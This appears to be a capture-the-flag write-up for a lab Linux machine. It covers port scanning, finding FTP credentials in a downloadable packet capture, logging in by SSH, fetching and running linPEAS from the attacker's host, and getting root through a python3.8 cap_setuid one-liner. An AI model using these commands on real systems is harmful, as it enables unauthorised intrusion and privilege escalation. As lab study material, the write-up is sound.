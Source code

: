 * Table of contents
{:toc}

# Machine Info
**IP**: 10.10.10.245

**OS**: Linux

**Difficulty**: Easy

# Passive Enumeration I

## **nmap**
### **Open Services**
```
$ nmap -T4 -p- 10.10.10.245
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 00:46 EDT
Nmap scan report for 10.10.10.245
Host is up (0.052s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
### **Advanced scan**
```
$ sudo nmap -T4 -p22,53,80 -A -O 10.129.126.40                                                                                                                     1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-13 23:49 EDT
Nmap scan report for 10.129.126.40
Host is up (0.071s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:7c:5e:b1:83:f9:4f:ae:2f:08:e1:33:ff:f5:83:9e (RSA)
|   256 3f:73:b4:95:72:ca:5e:33:f6:8a:8f:46:cf:43:35:b9 (ECDSA)
|_  256 cc:0a:41:b7:a1:9a:43:da:1b:68:f5:2a:f8:2a:75:2c (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Dyna DNS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   53.50 ms 10.10.16.1
2   25.96 ms 10.129.126.40
```
## **Enumerating HTTP**
The website is a dashboard with 3 options: IP Config, Network Status, and Security Snapshot.

![Dashboard](./website.png "Dashboard")

Of the three, the one we will focus on is the snapshot. This provides us with a 5 second snapshot of the network packets that were captured by the machine. However, the snapshot does not contain any data and all counts are 0.

![Snapshot1](./snapshot_1.png "Snapshot1")

As we can see, the option redirects us to the URL, http://10.10.10.245/data/1, and fuzzing the URL we find that for "/data/0" we get some values. Downloading the data and opening it with Wireshark, we find FTP packets with the credentials for user "nathan".

![user-password](./pcap_password.png "User password")

Now, we can connect to the target machine using the obtained credentials.

# Exploitation
## **Connecting to SSH**
```
$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun 15 03:10:52 UTC 2021

  System load:           0.0
  Usage of /:            34.8% of 8.73GB
  Memory usage:          20%
  Swap usage:            0%
  Processes:             220
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:a161

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation




The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu May 27 11:21:27 2021 from 10.10.14.7
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ whoami
nathan
```
# Enumeration II
The user "nathan" does not have privilege to run any commands as sudo. So, I copied over the linPEAS script to check for privilege escalation vectors.

```
nathan@cap:~$ wget 10.10.16.173/linpeas.sh
--2021-06-15 03:16:47--  http://10.10.16.173/linpeas.sh
Connecting to 10.10.16.173:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 342868 (335K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                 100%[=====================================================================================>] 334.83K   938KB/s    in 0.4s    

2021-06-15 03:16:47 (938 KB/s) - ‘linpeas.sh’ saved [342868/342868]

nathan@cap:~$ ls
linpeas.sh  user.txt
nathan@cap:~$ chmod +x linpeas.sh 
nathan@cap:~$ ./linpeas.sh 
...
Files with capabilities (limited to 50):
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

...
```
We can also manually search for files with capabilities as below.
```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The hacktricks entry for capabilities mentions that capabilities allow processes to run with elevated privileges but not the full set of privilege. So, any program that has the ability to call setUID() can be used to elevate our privilege.

# Privilege Escalation
Enumeration identified python3.8 to have the capability to set the UID and using it to spawn a shell achieves our goal.
```
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:~# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

# Post-Exploitation
## **User Flag**
```
nathan@cap:~$ cat user.txt 
fc****************************64
```
## **Root Flag**
```
root@cap:/root# cat root.txt 
f2****************************2a
```